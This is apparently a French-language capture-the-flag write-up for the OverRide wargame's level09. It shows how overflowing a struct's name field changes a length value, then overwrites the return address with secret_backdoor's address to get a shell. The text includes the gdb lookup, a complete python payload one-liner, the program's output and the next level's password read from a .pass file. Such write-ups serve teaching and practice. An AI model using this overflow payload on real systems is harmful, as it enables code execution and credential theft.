 En desassemblant le code et en le reconstuisant on constate avec un "i func" qu'il y a une backdoor dans le code qui nous permet d'executer la commande bash que l'on souhaite.

On va essayer d'y acceder.

La sturcture composé de :

```C
struct user
{
        char    msg[140];
        char    name[40];
        int     n;
};
```
Nous permet d'écraser n si on overflow name avec 41 octets.

Si on change n avec la plus haute valeur possible \xff on pourra overflow le msg de 140 pour pouvoir acceder a la fonction secret_backdoor.


```gdb
(gdb) p secret_backdoor
$2 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
(gdb)
```

address de secret_backdoor -> 0x55555555488c


```bash
level09@OverRide:~$ (python -c "print('B'*40 + '\xff' + '\n' + 'B' * 200 + '\x8c\x48\x55\x55\x55\x55\x00\x00' + '\n' + '/bin/sh')"; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
